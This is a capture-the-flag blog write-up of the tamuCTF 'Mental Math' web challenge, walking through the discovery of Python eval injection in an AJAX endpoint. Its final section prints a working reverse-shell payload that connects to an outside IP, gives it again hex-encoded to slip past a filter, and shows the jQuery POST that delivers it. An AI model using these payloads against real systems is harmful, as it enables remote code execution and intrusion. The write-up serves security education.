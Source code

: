 ```yaml
---
layout: blogpost
title:  "tamuCTF - Exploiting Python Eval"
date:   2020-03-23 03:32:01 +0300
categories: ctf
---
```


## Category: Web
## Difficulty: Hard
## Challenge: Mental Math
## Description : My first web app, check it out! 
<br>

The application presents you with a math question and expects an answer. The interesting thing is that it makes an ajax call very often (any time it detects you input something to the box) and looks to see if you have submitted the answer to its question of course you would normally answer the question. When you do, it will accept your answer and spit another one out. It does so like this
<br>
```javascript
function submitProblem() {
    $.post("/ajax/new_problem", {'problem': $("#problem").html(), 'answer': $('#answer').val()}, function ( data ) {
      if (data.correct) {
        $('#problem').html(data.problem);
        $('#answer').val('');
      }
    });
  }
$(document).ready(function() {
  $("#answer").on('input', submitProblem);
  submitProblem();
});
```
<br>
What's even more interesting though is that youre able to respond with the servers question back at it... so when you do something like
<br>
```javascript
$.post("/ajax/new_problem", {'problem': 0+0, 'answer': 0+0}, function ( data ) {
  if (data.correct) {
    $('#problem').html(data.problem);
    $('#answer').val('');
  }
});
```
<br>
you get a response object saying that the answer was correct...
This means something on the back end must be executing our inputs on the server to test the parameters equality. This is when I noticed there was a comment on the HTML page containing the chars "% }{ %" which are used in Flask and Django. Python ```eval() or exec()```? In order to try and abuse this I tried to inject code with a request like
<br>
```javascript
$.post("/ajax/new_problem", 
  {'problem': 0+0, 'answer': "0;ls"}, function ( data ) {
  if (data.correct) {
    $('#problem').html(data.problem);
    $('#answer').val('');
  }
});
```
<br>
and many other queries, most of which didnt output anything or gave me a dreaded "Internal Server Error".<br>
The most interesting part of the Internal Server error was that it seemed to occur EVERY time under a single condition: I sent a post request using the console, and answer's value contained SOMETHING that was not a number. (different things I did to test this were sending the same request with $.ajax,$.get,$.post, python requests, and burpsuite)<br>
To see if this was simply a WAF looking for anything non-numeric, I base64 encoded a string with and without numeric strings, and sent both in the console with a post request with the format answer : btoa(string). As you'd expect, the string that was not purely numeric failed but the base64 encoded number still returned true whenever the query would've been true.<br>
After a lot of failures at injecting commands (they seemed to work but I wasnt getting output) I ended up converting my payloads to hex and trying to execute them with the same results as base64 encoding them.<br>
Finally I decided to try a reverse shell as a payload if I wasnt able to see the output, but was still able to execute code. After the ascii payload didnt work, the base64 encoded payload didnt work, and a hex payload didnt work, I realized that I had only been trying to inject the payload to the answer parameter because thats where I first noticed the vuln, but unless there was a predefined table for all of the possible math questions this app might give you, the problem must have also been calculating its own answer when an answer was compared to it.
<br>
Encoding this string into hex gave the payload
 <br>
```python
__import__('os').system("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"3.14.67.85\",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'")
```
<br>
<br>
```javascript
"\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x5c\x22\x33\x2e\x31\x34\x2e\x36\x37\x2e\x38\x35\x5c\x22\x2c\x39\x30\x30\x30\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x5c\x22\x2f\x62\x69\x6e\x2f\x73\x68\x5c\x22\x2c\x5c\x22\x2d\x69\x5c\x22\x5d\x29\x27\x22\x29"
```
<br>
I sent the post request while running a netcat listener on my local machine
<br>
```javascript
$.post("/ajax/new_problem", {"problem":"\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x5c\x22\x33\x2e\x31\x34\x2e\x36\x37\x2e\x38\x35\x5c\x22\x2c\x39\x30\x30\x30\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x5c\x22\x2f\x62\x69\x6e\x2f\x73\x68\x5c\x22\x2c\x5c\x22\x2d\x69\x5c\x22\x5d\x29\x27\x22\x29","answer":""}, function (data) {
      if (data.correct) {
          console.log(data);
      }
});
```
<br>
after sending the request we pop a reverse shell and get
<br>
![mental_math_flag](/assets/images/ctf/tamu2020/mental_math_flag.PNG)

